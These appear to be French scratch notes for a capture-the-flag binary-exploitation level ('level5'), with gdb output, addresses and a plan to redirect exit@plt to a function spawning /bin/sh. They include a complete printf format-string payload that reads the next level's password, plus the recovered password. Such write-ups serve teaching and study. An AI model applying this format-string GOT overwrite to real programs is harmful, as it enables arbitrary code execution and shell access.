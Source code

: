 
printf adrr = 0x8048380 = \x80\x83\x04\x08 

mon print est a +4 de 200 donc a 4 classic

premierre condition a modif = 0x804984c = │0x8048427 <__do_global_dtors_aux+7>     cmpb   $0x0,0x804984c          = \x4c\x98\x04\x08        
                                                                                                    │
v0 = 0x8049850 = eax


changer l adresse de dtor end  /// ou changer dtor_idx_6161 en negatif 

changer la condition pour que elle soit == 0
ensuite il faut changer la redirection du jump du compare vers le call de notre function o
set variable;

call exit = 0xe8    0xcc    0xfe    0xff    0xff 

0x100909a8 - 0x80484a5 

call ret= 269027752 new = 0x10090a07 = 269027847 new = 269027849
function o = 134513829
diff = 134513923


269027752 - 134513829 = 134513923 = 94


134513923 - 134513829 = 94

temp  + 134514017

0x8048503

0x8048505

0x8048504 - 0x80484a4 = 0x60
134513924 - 134513828 

set variable *(long*)0x8048500=-96

\x00\x85\x04\x08

FFA0

0x80484ff
232 

x 0x80484c2 = 0x81e58955

0x81e58955 - 0x80484c2 = 0x79E10493



change dtor list en raoutant -1 
ensuite add le pointer de function sur _DTOR_LIST__[v0 + 1]



outils:
	https://hex-works.com/

observations:
	Il y a une fonction <o> qui execute "/bin/sh"
	Probablement modifier la stack de printf pour changer son addresse de retour vu que nous n'avons pas d'insttuction de retour
	dans les autres fonctions (ca va etre fastidieux)
	Appel a fonction <exit> et fonction <_exit>

strategie:
	modifier l'operation de saut de la fonction d'appel cour <exit> pour pointer vers la fonction <o> 		

cmd gdb:
	p o
	 `-> $9 = {<text variable, no debug info>} 0x80484a4 <o>
	info address exit@plt
	 |-> Symbol "exit@plt" is at 0x80483d0 in a file compiled without debugging.
	 |
	 `-> La premiere ligne de la fonction ressemble a ca : (jmp *0x8049838)


solution:
	Je vais modifier l'addresse a laquelle l'operation jmp va dans la memoire pour pointer vers l'addresse de la fonction <o>

cmd:
	(python -c "print('\x38\x98\x04\x08' + 'A'*4 + '\x39\x98\x04\x08' + 'A'*4 + '\x3a\x98\x04\x08' + '%8.x'*3 + 'A'*120 + '%n' + '%992.x' + '%n' + '%896.x' + '%n')"; echo "cat /home/user/level6/.pass") | ./level5

pass:
	d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
